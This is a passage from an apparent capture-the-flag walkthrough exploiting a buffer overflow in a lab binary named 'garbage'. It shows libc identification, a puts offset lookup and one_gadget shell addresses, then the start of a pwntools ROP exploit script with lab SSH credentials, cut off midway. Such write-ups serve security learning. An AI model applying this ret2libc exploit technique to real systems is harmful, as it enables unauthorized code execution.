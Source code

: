     root@kali:/opt/libc-database# md5sum /tmp/libc.so.6 libs/libc6_2.27-3ubuntu1_amd64/libc.so.6
    50390b2ae8aaa73c47745040f54e602f  /tmp/libc.so.6
    50390b2ae8aaa73c47745040f54e602f  libs/libc6_2.27-3ubuntu1_amd64/libc.so.6
    

#### puts Offset

Since I’m leaking `puts`, I need that offset to the start of libc:

    
    
    margo@ellingson:~$ readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep " puts@@GLIBC"
       422: 00000000000809c0   512 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
    

Now I can find the offset to `puts` in this libc. I can subtract this value
from any leak to get the current libc base address.

### One Gadget

I’ve been meaning to play with
[one_gadget](https://github.com/david942j/one_gadget), so I gave it a run. The
install was easy with `gem install one_gadget`. Then I just ran it on the libc
from target:

    
    
    root@kali:/opt/libc-database# one_gadget libs/libc6_2.27-3ubuntu1_amd64/libc.so.6
    0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
    constraints:
      rcx == NULL
    
    0x4f322 execve("/bin/sh", rsp+0x40, environ)
    constraints:
      [rsp+0x40] == NULL
    
    0x10a38c execve("/bin/sh", rsp+0x70, environ)
    constraints:
      [rsp+0x70] == NULL
    

It gave three possible options of addresses to jump to which would run `sh`.

In testing, the first one didn’t work, but the second one did.

### Low Priv Shell

I put all that together and get this:

    
    
    #!/usr/bin/env python
    
    from pwn import *
    
    
    #context.log_level = "DEBUG"
    sshConn = ssh(host='10.10.10.139', user='margo', password='iamgod$08')
    garbage = sshConn.process('garbage')
    
    junk     = "A" * 136      # offset from pattern
    pop_rdi  = p64(0x40179b)  # rop-tool gadget garbage | grep rdi
    puts_plt = p64(0x401050)  # objdump -D garbage | grep puts@GLIBC
    puts_got = p64(0x404028)  # objdump -D garbage | grep puts@GLIBC
    main     = p64(0x401619)  # objdump -D garbage | grep '<main>' 
    